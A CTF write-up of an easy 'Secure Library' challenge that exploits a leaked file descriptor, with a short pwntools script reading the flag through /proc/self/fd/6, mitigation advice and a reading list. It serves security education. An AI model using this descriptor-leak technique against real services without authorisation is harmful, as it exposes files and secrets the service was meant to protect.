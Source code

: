 
# 🕵️‍♀️ CTF Challenge Writeup: Breaking the "Secure" Library

## 📘 Table of Contents

1. [Challenge Overview](#challenge-overview)
2. [Background](#background)
3. [Challenge Setup](#challenge-setup)
4. [Vulnerability Analysis](#vulnerability-analysis)
5. [Exploitation Methodology](#exploitation-methodology)
6. [Detailed Walkthrough](#detailed-walkthrough)
7. [Exploit Script](#exploit-script)
8. [Learning Objectives](#learning-objectives)
9. [Recommended Mitigations](#recommended-mitigations)
10. [Additional Resources](#additional-resources)
11. [References](#references)

## 🏁 Challenge Overview

### Challenge Details

- **Name**: Secure Library  
- **Type**: Pwn / File Descriptor Exploit  
- **Difficulty**: Easy  
- **Platform**: Linux Docker Container  
- **Key Concept**: File Descriptor Manipulation  

## 🌍 Background

![Homepage Screenshot](https://github.com/TarPeg007/Akasec-CTF-Writeups/blob/master/photos/Screen%20Shot%202024-11-26%20at%2011.47.53%20AM.png)

### The Cybersecurity Landscape  
In the world of cybersecurity, seemingly secure systems often hide subtle vulnerabilities. This challenge exemplifies how a small implementation detail can compromise an entire security model.

### Context of File Descriptors  
File descriptors are fundamental to how operating systems manage file and I/O operations. They're like unique identifiers for open files, network sockets, and other I/O resources.

## 🔬 Challenge Setup

### Environment

- **Container**: Docker  
- **Port**: 4041  
- **Primary Vulnerability**: File Descriptor Leakage  

### Initial Interaction  
When you first connect to the challenge, you're presented with a library-like interface that appears to have strict file access controls.

## 🕳️ Vulnerability Analysis

### The Core Vulnerability: FD Leakage  
The challenge introduces a critical vulnerability through improper file descriptor management. When the program opens `flag.txt`, it fails to close the file descriptor, leaving an exploitable pathway.

### Technical Deep Dive  

- **File Descriptor**: A unique integer identifier for an open file  
- **Vulnerability Location**: `/proc/self/fd/` filesystem  
- **Exploit Mechanism**: Accessing open file descriptors directly  

#### Linux Proc Filesystem Explained  
The `/proc` filesystem is a pseudo-filesystem that provides an interface to kernel data structures. `/proc/self/fd/` contains symbolic links to all currently open file descriptors for the running process.

## 🚀 Exploitation Methodology

### Exploitation Steps  

1. Open the flag file (creating an unclosed file descriptor)  
2. Identify the file descriptor number  
3. Access the file directly through `/proc/self/fd/`  
4. Retrieve the flag content  

### Exploit Technique Breakdown  

```python
from pwn import *

# Connection Setup
conn = remote(HOST, PORT)

# Step 1: Open flag file
conn.sendline(b'2')  # Open file option
conn.sendline(b'flag.txt')

# Step 2: Access via proc filesystem
conn.sendline(b'2')
conn.sendline(b'/proc/self/fd/6')

# Step 3: Read contents
conn.sendline(b'3')
print(conn.recvall().decode())
conn.close()
```

## 🧠 Learning Objectives

### Key Takeaways

- Importance of proper resource management  
- Understanding file descriptor lifecycles  
- Exploring Linux filesystem internals  
- Recognizing subtle security vulnerabilities  

## 🔒 Recommended Mitigations

### Code-Level Fixes

- Always close file descriptors after use  
- Implement context managers  
- Use `with` statements in Python  
- Add input validation for file paths  
- Implement strict access control mechanisms  

#### Example Mitigation

```python
def read_secure_file(filename):
    try:
        with open(filename, 'r') as file:
            # Proper file handling with automatic closure
            return file.read()
    except PermissionError:
        log_security_event()
```

## 📚 Additional Resources

### Books for Deep Learning  

- **"The Linux Programming Interface"** by Michael Kerrisk  
  - Comprehensive guide to Linux system programming  
  - Detailed explanation of file descriptors and process management  

- **"Hacking: The Art of Exploitation"** by Jon Erickson  
  - Classic text on low-level system vulnerabilities  
  - In-depth exploration of exploitation techniques  

- **"Practical Malware Analysis"** by Michael Sikorski  
  - Advanced techniques for understanding system-level vulnerabilities  
  - Comprehensive malware analysis approaches  

### Online Learning Platforms  

- Hack The Box  
- TryHackMe  
- OverTheWire Bandit Wargames  

### CTF Training Resources  

- PicoCTF  
- CTFlearn  
- Root-Me  

### Technical Documentation  

- Linux Manual Pages  
- Linux Kernel Documentation  

## 🔗 References

- Linux Proc Filesystem Documentation  
- POSIX File Descriptor Standards  

### 🎓 Academic and Research Papers  

- "File Descriptor Management in Modern Operating Systems"  
- "Security Implications of Resource Leakage in System Programming"  

## 🚨 Ethical Considerations

- Always obtain proper authorization before testing vulnerabilities  
- Use exploits and knowledge responsibly  
- Respect system and network boundaries  

## 🌟 Final Thoughts

Cybersecurity is a continuous learning journey. Each vulnerability is an opportunity to understand systems more deeply and improve security practices.  
Happy and Ethical Hacking! 🖥️🔐  

**Disclaimer**: This writeup is for educational purposes only. Always seek proper authorization before performing any security testing.
